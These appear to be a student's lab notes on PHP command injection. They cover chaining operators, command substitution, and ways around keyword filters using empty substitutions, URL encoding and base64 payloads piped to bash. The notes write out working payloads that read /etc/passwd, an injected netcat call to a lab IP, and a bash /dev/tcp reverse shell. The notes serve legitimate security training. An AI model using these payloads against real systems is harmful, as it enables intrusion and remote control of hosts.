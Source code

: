 #### Command Chaining
`ci-sandbox` starting page
![[Pasted image 20250120225335.png]]once hitting on the `php command injection` this is the page
![[Pasted image 20250120225415.png]]
what pops up in `BURP`
- we can assume it is using the `ip` GET argument to initiate the ping command
![[Pasted image 20250120225433.png]]
because the `TTL` is `64` we know that it is running linux - this is important so we can narrow down what kind of command injection we can do 
- linux and windows commands are completely different
![[Pasted image 20250120230226.png]]
by the file name running we know that it is `php`
![[Pasted image 20250120230354.png]]
this allows us to atleast imagine what the back end source looks like because we know its `php`
![[Pasted image 20250120230516.png]]
lets focus on the `system` line, in this example we want to inject our commands after `PING` - we need to find a way to add a command after ping. this can be exploited by using `command chaining`
![[Pasted image 20250120230700.png]]
the first way to execute command chaining is by using a `;` this will execute the ping command first, then whatever comes after the `;`
```php
ping -c 5 127.0.0.1;id
```
you can also chain multiple commands together like this 
```php
ping -c 5 127.0.0.1;id;whoami
```
here we can see the `three` commands
![[Pasted image 20250120231031.png]]
another way is by using a `pipe` `|` - in shells a pipe allows the output of the first command to be used as input for the next 
- there are caveats to using `pipe`
if we use 
```php
ping -c 5 127.0.0.1 | id
```
it only shows the `id` command because the output of ping got fed into `id` which ate it essentially because `id` is a bash command and doesn't care about standard input or output
- be aware of this, the `|` output may not be visible
![[Pasted image 20250120231500.png]]
another way is by using `&&` which executes the second command `IF` the first command successfully executes - in this example `ls` executes therefore so does `id`
![[Pasted image 20250120231811.png]]
`HOWEVER` if we execute `&&` in the browser it will not execute because `&` is used in `URL's` as a delimeter meaning it separates `GET` parameters
![[Pasted image 20250120232027.png]]
the `BROWSER` typically `URL_encodes` this type of stuff but with `&&` it doesn't as seen here so it will fail adn not execute the `id` portion
![[Pasted image 20250120233715.png]]
but `URL encoding` the `&&`  to `%26%26`  will allow it to work
![[Pasted image 20250120233820.png]]OR
we can also use the `OR` operator `||` which is double pipes, the second portion of the command only executes if the `1st` portion fails
- in this example `id` never executes because `whoami` executes
![[Pasted image 20250121165428.png]]
if the first command fails then the `2nd` will execute
![[Pasted image 20250121165510.png]]
a way we could get this to execute is by changing the `ping` IP address to `127.0.0.` which is invalid there fore will execute the `id` instead
![[Pasted image 20250121171750.png]]

#### Command Substitution

here `whoami` will execute which is = to `kali` then the output with substitute the entire text
![[Pasted image 20250121172309.png]]
so now because the `output` is equal to `kali` the command line tried executing `kali`
![[Pasted image 20250121172357.png]]
another example of this is 
```
echo "I am `whoami`"
```
and the `whoami` results is `=` kali so is replaced
![[Pasted image 20250121172529.png]]
can use `id $(whoami)` to get the `id` information of `kali` because thats what gets returned from `whoami`
![[Pasted image 20250121183206.png]]
can also set variables this way 
- one characteristic of Command Substitution is that  it will always execute first but the original command needs the output before it is able to proceed.
![[Pasted image 20250121183329.png]]
However we do not always need the first command to properly execute in order for the second command to run.
- here we still get the results of `id` even though ping failed because the output of `id` will be use as an argument to `ping`
![[Pasted image 20250121184727.png]]
so looking at this in `burp` `id` executes but we dont see the results, but sometimes we dont care about seeing the results as long as it executes
![[Pasted image 20250121184948.png]]

***Command Substitution will always execute first***

now if we change the command to `ip=127.0.0.1$(nc+192.168.49.89+4444)` and make sure that it is encoded we can get command execution
![[Pasted image 20250121185426.png]]

Continuing on after [[13.1.4 About the Chaining of Commands & System Calls]]

#### Bypass Input Filtering / Input Sanitization
trying `;whoami`
![[Pasted image 20250121222916.png]]
the first question to ask is does it only affect ip addresses? And we need to test to see what works and what doesn't - trial and error to understand what kind of filtering is taking palce
- first lets remove `whoami` and leave the `;`
![[Pasted image 20250122210302.png]]
it works so this tells us the type of  filtering taking place is `keyboard filtering`
- we can try bruteforcing commands with `wfuzz`, lets try `cat` which is filtered
![[Pasted image 20250122210403.png]]
`;ps` is not filtered
![[Pasted image 20250122210440.png]]
a way to bypass simple string test is with a `now` string
with `whoami` we can do something like this - `$()` doesnt execute anything but `who$()ami` does
![[Pasted image 20250122211725.png]]
now which one will correctly bypass?
- the `id` will most likely fale because it is looking for `id`
```bash
$()id
who``ami
whoam$(i)
```
the second one works
![[Pasted image 20250122214054.png]]
the last one fails because `i` is inside the command substitution
![[Pasted image 20250122214124.png]]
however `echo` is allowed so we can make this work
![[Pasted image 20250122214233.png]]
making `whoam$(echo+i)` - making sure that it is encoded
![[Pasted image 20250122214336.png]]
an additional way is by `encoding` our payload and then `decoding` the payload with `base64` which is a good encoding when sending stuff over the web

```bash
echo "cat /etc/passwd" | base64
```
![[Pasted image 20250122214947.png]]
once it reaches the target then we wat to decode it with
```bash
echo "base64string here" | base64 -d
```
this printed the `payload` but it did not execute it
![[Pasted image 20250122215048.png]]
this payload executes it
```bash
echo "Y2F0IC9ldGMvcGFzc3dkCg==" | base64 -d | bash   
```
![[Pasted image 20250122215424.png]]
as well as - wasnt testing
```bash
$(echo "Y2F0IC9ldGMvcGFzc3dkCg==" | base64 -d | bash)
```
we can see that the original base64 payload works as long as we url encode it in burp properly
![[Pasted image 20250122215604.png]]- two methods 
#### [[13.2.2 Blocklisted Strings Bypass]] exercise done here

```bash
# all out put will go through the /dev/tcp socket and all input will be input to the socket
bash -i >& /dev/tcp/192.168.49.150/4444 0>&1
```
if this is ran with a `nc` listener it will be unable to execute, this is because the shell running is `zsh` shell
![[Pasted image 20250217090117.png]]
to get this to run we have to ensure that it is running with `bash`
![[Pasted image 20250217090208.png]]
caught shell, good to remember that not all machines run bash by default
![[Pasted image 20250217090221.png]]